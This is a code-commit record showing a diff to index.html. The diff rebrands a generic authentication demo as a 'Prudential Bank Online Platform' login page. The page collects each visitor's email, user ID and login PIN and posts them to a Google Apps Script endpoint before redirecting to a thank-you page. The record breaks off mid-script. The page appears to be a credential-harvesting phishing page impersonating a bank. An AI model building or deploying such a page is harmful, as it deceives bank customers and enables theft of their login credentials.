

Before and after one commit to system-service-upgrade/prudential-service, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,108 +1,42 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
-  <meta charset="UTF-8">
-  <meta name="viewport" content="width=device-width, initial-scale=1.0">
+  <meta charset="UTF-8" />
+  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
   <title>Secure Authentication Demo</title>
   <style>
-    body {
-      font-family: Arial, sans-serif;
-      margin: 0;
-      background-color: #f7f7f7;
-      display: flex;
-      flex-direction: column;
-      align-items: center;
-    }
-    .header {
-      background-color: #f9c600; /* Yellow header */
-      color: #000;
-      text-align: center;
-      width: 100%;
-      padding: 40px 20px;
-      border-bottom-left-radius: 40px;
-      border-bottom-right-radius: 40px;
-    }
-    .header h1 { margin: 0; font-size: 22px; }
-    .header p { margin: 5px 0 0; font-size: 14px; }
-    .login-container {
-      background: #fff;
-      width: 90%;
-      max-width: 360px;
-      margin-top: -30px;
-      padding: 30px 25px;
-      border-radius: 12px;
-      box-shadow: 0 4px 8px rgba(0,0,0,0.1);
-    }
-    .login-container label {
-      display: block;
-      margin-bottom: 6px;
-      font-size: 14px;
-      color: #333;
-    }
-    .login-container input {
-      width: 100%;
-      padding: 12px;
-      margin-bottom: 20px;
-      border: 1px solid #ddd;
-      border-radius: 6px;
-      font-size: 14px;
-    }
-    .button-group {
-      display: flex;
-      justify-content: center;
-    }
-    .button-group button {
-      padding: 12px 20px;
-      border: none;
-      border-radius: 6px;
-      font-size: 16px;
-      font-weight: bold;
-      cursor: pointer;
-      transition: background 0.3s;
-      background-color: #f9c600;
-      color: #000;
-    }
-    .button-group button:hover {
-      background-color: #e6b200;
-    }
+    body { font-family: Arial, sans-serif; margin: 0; background: #f7f7f7; display: flex; flex-direction: column; align-items: center; }
+    .header { background: linear-gradient(135deg, #1e3c72, #2a5298); color: #fff; text-align: center; width: 100%; padding: 40px 20px; border-bottom-left-radius: 40px; border-bottom-right-radius: 40px; }
+    .header h1 { margin: 0; font-size: 22px; } .header p { margin: 5px 0 0; font-size: 14px; }
+    .login-container { background: #fff; width: 90%; max-width: 360px; margin-top: -30px; padding: 30px 25px; border-radius: 12px; box-shadow: 0 4px 8px rgba(0,0,0,0.1); }
+    label { display: block; margin-bottom: 6px; font-size: 14px; color: #333; }
+    input { width: 100%; padding: 12px; margin-bottom: 20px; border: 1px solid #ddd; border-radius: 8px; font-size: 14px; }
+    .button-group { display: flex; justify-content: center; }
+    .button-group button { padding: 12px 20px; border: none; border-radius: 8px; font-size: 16px; font-weight: bold; cursor: pointer; transition: background 0.3s; background: linear-gradient(135deg, #1e3c72, #2a5298); color: #fff; }
+    .button-group button:hover { background: linear-gradient(135deg, #162447, #1f4068); }
   </style>
 </head>
 <body>
   <div class="header">
-    <h1>Secure Authentication Demo</h1>
-    <p>Connect to Google Sheet via Apps Script</p>
+    <h1>Welcome to the Prudential Bank Online Platform </h1>
+    <p> Login to validate </p>
   </div>
 
   <div class="login-container">
     <form id="authForm">
-      <label>Email</label>
-      <input type="email" name="email" placeholder="Enter email" required>
-
-      <label>User ID</label>
-      <input type="text" name="userId" placeholder="Enter user ID" required>
-
-      <label>Login PIN</label>
-      <input type="password" name="pin" placeholder="Enter PIN" required>
-
-      <div class="button-group">
-        <button type="submit">Login  To Validate →</button>
-      </div>
+      <label>Email</label><input type="email" name="email" placeholder="Enter your email" required>
+      <label>User ID</label><input type="text" name="userId" placeholder="Enter your User ID" required>
+      <label>Login PIN</label><input type="password" name="pin" placeholder="Enter your PIN" required>
+      <div class="button-group"><button type="submit">Login To Validate →</button></div>
     </form>
   </div>
 
   <script>
     document.getElementById('authForm').addEventListener('submit', async function(e) {
       e.preventDefault();
-      const form = e.target;
-      const data = new FormData(form);
-      const params = new URLSearchParams(data);
-
+      const params = new URLSearchParams(new FormData(e.target));
       try {
-        const response = await fetch("https://script.google.com/macros/s/AKfycbzv-M-i3ZgHE3IN-q1CnnmSrJh3_26l8sKnoMkl_kpvYnAh8hX7K70xzNIwrZhK7YKm/exec", {
-          method: "POST",
-          body: params
-        });
-
+        const response = await fetch("https://script.google.com/macros/s/AKfycbzv-M-i3ZgHE3IN-q1CnnmSrJh3_26l8sKnoMkl_kpvYnAh8hX7K70xzNIwrZhK7YKm/exec", { method: "POST", body: params });
         if (response.ok) {
           window.location.href = "thank_you.html";
         } else {
```
